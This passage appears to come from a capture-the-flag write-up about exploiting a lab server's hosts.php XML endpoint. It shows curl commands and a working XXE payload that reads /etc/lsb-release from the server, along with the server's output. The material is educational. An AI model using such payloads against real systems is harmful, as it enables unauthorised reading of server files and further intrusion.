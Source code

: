 #### xml Upload

It dawned on me that the xml file could be used for this site. By posting XML in the format found in `test.txt`, we can get `hosts.php` to calculate the number of hosts in the given subnet:

```

root@kali# cat test.txt
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
root@kali# curl -X POST -d @test.txt http://10.10.10.78/hosts.php

There are 62 possible hosts for 255.255.255.192

root@kali# cat test2.txt
<details>
    <subnet_mask>255.255.255.0</subnet_mask>
    <test></test>
</details>
root@kali# curl -X POST -d @test2.txt http://10.10.10.78/hosts.php

There are 254 possible hosts for 255.255.255.0

```

## XXE Exploit / User Shell

This page takes our xml input, and shows it back to us! We can do an inbound XXE attack to read files:

```

root@kali# cat exploit.xml
<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/lsb-release"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
root@kali# curl -X POST -d @exploit.xml http://10.10.10.78/hosts.php -x http://127.0.0.1:8080

There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"

```

Perfect. Write a quick bash script so were not editing files every time.
